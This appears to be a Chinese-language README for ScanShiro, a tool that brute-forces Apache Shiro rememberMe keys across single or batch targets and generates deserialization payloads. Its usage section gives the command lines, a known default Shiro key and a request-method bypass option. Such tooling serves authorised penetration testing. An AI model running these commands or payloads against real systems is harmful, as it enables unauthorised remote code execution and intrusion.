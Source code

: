 # ScanShiro

>把去年写的ShiroScan 给重构了一下

## Update
1.扫描的判断逻辑,通过返回的rememberMe个数进行判断
2.添加了bypass功能,可以发送随机的请求方法


## 学习

[原理](http://www.lmxspace.com/2020/08/24/%E4%B8%80%E7%A7%8D%E5%8F%A6%E7%B1%BB%E7%9A%84shiro%E6%A3%80%E6%B5%8B%E6%96%B9%E5%BC%8F/)

```java
<1.2.4   shiro550
<1.4.2   shiro721 https://cloud.tencent.com/developer/article/1944738 需要成功登录(目前还没有添加
>1.4.2   换加密方法 aes cmg
```

## 使用

```java
暴力破解key
java -jar ScanShiro.jar -u http://0.0.0.0 -k key.txt
        
批量暴力破解key
java -jar ScanShiro.jar -f url.txt -k key.txt
        
根据正确的key生成payload 适合在有key无gadgets的情况下
java -jar ScanShiro.jar -p payload.ser -c kPH+bIxk5D2deZiIxcaaaA==

-n 参数是值修改shiro中cookie的名字少部分环境存在,默认是rememberMe
        
-proxy 参数是代理 目前只支持socks5代理并且没有用户名密码

支持 -bypass 1 
发送数据的请求方法
```

**说明:默认是先跑常规的模式如果没有跑出key就自动跑AES/GCM,并且生成payload的时候生成这两种的payload。怎么说呢工具肯定是存在误报的！！！**


## 问题

  1. 少部分环境存在shiro rememberMe参数为于post请求中 等待解决
  2. 经过大量测试,发现当跑批量的时候小几率出现连接异常的问题.所以为了保证工具准确性建议提前测试目标连接情况

